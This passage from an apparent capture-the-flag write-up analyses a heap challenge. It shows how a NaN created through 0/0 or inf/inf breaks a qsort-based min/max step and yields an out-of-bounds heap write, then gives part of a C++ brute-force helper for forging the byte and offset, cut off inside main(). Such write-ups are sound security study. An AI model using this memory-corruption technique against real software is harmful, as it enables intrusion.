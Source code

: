 In the delete function, the heap chunks are freed and their pointers are cleared. The modify function can only change the `magic_num`. The view function calls `show_func` to output the `fmt` string and prints the stored floating-point number directly as an integer. Every time `magic_num` is read or written, a check is performed to ensure that the high bits of its address are consistent with the value stored at `0x114514000`. The sort function provides an opportunity to perform a division, allowing the result of `a/b` to be written into `c`, provided that $a \\times b \\neq 0$ and $c == 0$. After the calculation, `qsort` is used to sort the entries based on their `magic_num`. Finally, the set Session ID function finds the maximum and minimum numbers in the sorted array and calculates an ID using the formula $(num - min)/(max - min) \\times 0x1f$. It then writes the last byte of a random number into the Session ID at the calculated index.

#### Vulnerability Point

The obvious vulnerability lies in the set Session ID function. If the sort function does not behave as expected (i.e., `max` is not the true maximum or `min` is not the true minimum), an out-of-bounds write to the heap list can be achieved. Due to the property of NaN (Not a Number) where any comparison involving it returns false, we can disrupt the sorting by creating a NaN in the array. Since the input check prevents us from directly entering "nan", we can achieve this through the division operation in the sort function. Operations that produce NaN include $0/0$ or $inf/inf$. An `inf` (infinity) can be generated by inputting a very large number. Here, we can use a number like `10e2222222222222222` to bypass the input length limit and write an `inf` value. Following this, a simple brute-force script can be used to forge the random number and write a specific byte (`code`) at a specified `offset`:

```cpp
// g++ -std=c++17 -O2 -pthread -o brute brute.cpp
#include <iostream>
#include <thread>
#include <vector>
#include <atomic>
#include <cmath>
#include <cstring>
#include <iomanip>
#include <limits>
#include <cstdint>

struct Task {
    uint32_t start;
    uint32_t end;
    int offset;
    uint8_t code;
    std::atomic<bool>* found;
    float* result;

    void operator()() const {
        for (uint32_t u = start; u < end && !found->load(); ++u) {
            if ((u & 0xFF) != code)
                continue;
            float num;
            std::memcpy(&num, &u, 4);
            if (!std::isfinite(num))
                continue;

            float product = num * 0x1f;
            if ((int)product == offset) {
                *result = num;
                found->store(true);
                break;
            }
        }
    }
};

int main(int argc, char* argv[]) {
    if (argc < 3) {
```